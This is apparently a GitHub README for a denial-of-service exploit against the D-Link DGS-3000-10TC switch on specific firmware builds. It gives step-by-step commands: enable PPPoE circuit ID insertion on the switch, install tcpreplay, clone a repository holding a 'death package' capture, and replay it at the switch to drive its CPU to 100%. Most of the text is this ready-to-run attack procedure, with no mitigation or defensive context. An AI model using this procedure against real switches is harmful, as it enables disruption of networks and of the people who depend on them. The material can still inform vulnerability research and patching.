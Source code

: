 # kill-dlink-DGS-3000-10TC-

Initial data:

DGS-3000-10TC
Firmware: Build 4.18.B007
Boot PROM Version          : Build 2.00.001
Firmware Version           : Build 2.05.B009
Hardware Version           : A2
(or Build 2.05.B008)

When a broken pppoed packet comes to the switch - cpu 100% 

1. Enable the function on the switch. The goal is for the switch processor to accept pppoed.
    globally:
    
    	config pppoe circuit_id_insertion state enable
	
     and on any port:
     
     	config pppoe circuit_id_insertion ports 1 state enable
	
2. Install tcpreplay

	for example in debian:
	
	apt install tcpreplay

3. Get a death package

    git clone https://github.com/MakselPr/kill-dlink-DGS-3000-10TC.git
    

4. Run the command:

     cd kill-dlink-DGS-3000-10TC
     
	tcpreplay  -i eth1 death_package.pcap
     
	where eth1 this is the network card connected to the switch



Thank you.
